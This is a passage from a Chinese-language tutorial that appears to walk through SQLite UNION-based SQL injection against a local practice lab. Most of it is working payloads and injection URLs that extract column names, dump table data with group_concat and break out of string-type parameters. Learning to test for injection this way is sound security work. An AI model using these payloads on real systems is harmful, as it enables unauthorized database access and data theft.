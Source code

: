 获取列名

对于获取列名来说，同样有个简单的SQL查询来从指定表中获取列名。

union SELECT 1,sql,3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='table_name'
只要把上述查询中的table_name替换为你想要获取列名的相应表的表名即可，在本例中，我想获取info表的列名：

http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,sql,3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='info'
http://p4.qhimg.com/t01cebe8e5532e2c48f.png
获取“干净”列名的payload

用以下payload来替代'sql',其余的payload保持不变

replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~')
Inject URL:

http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union select 1,replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' and name='info'
http://p3.qhimg.com/t01393072fbc4579f48.png
获取列中的数据

现在我们有了表名和列名，最后一件事就是去获取我们想要的列中对应的数据了，可以使用如下SQL查询：

Select column_name from table_name
只要将column_name和table_name替换为你想要的名字就行了，在本例中表名为info，列名为OS，因此最终查询语句为:

select OS from info
Inject URL

http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,OS,3,4,5 FROM info
http://p4.qhimg.com/t011dd84e7aa2466c55.png
我们可以使用group_concat函数来提取列中的完整数据。

http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,group_concat(OS,'~~'),3,4,5 FROM info
http://p9.qhimg.com/t014d24d9465a6690ab.png
2、基于联合查询的SQL注入(字符型)

字符型的基于联合查询的SQL注入与数字型的并没有太大差别，唯一的区别在于，用户的数据将被放入SQL分割符之间，我们将需要逃逸引号、括号等分隔符的闭合。在漏洞应用程序中有一处字符型的基于联合查询的SQL注入，注入点如下：

http://127.0.0.1/sqlite-lab/index.php?tag=ubuntu
为了利用该SQL注入，只需要在payload前加上'并在结束前加上– -，举个例子，要获取表名需要用到如下payload:

' union select 1,2,3,4,5 FROM sqlite_master WHERE type IN('table','view') AND name NOT LIKE 'sqlite_%' -- -
Inject URL

http://127.0.0.1/sqlite-lab/index.php?tag=ubuntu' union select 1,2,3,4,5 FROM sqlite_master WHERE type IN ('table','view') AND name NOT LIKE 'sqlite_%' -- -
因此，字符型基于联合查询的SQL注入除了一点点调整以逃逸分隔符外，与数字型的并没有差别。
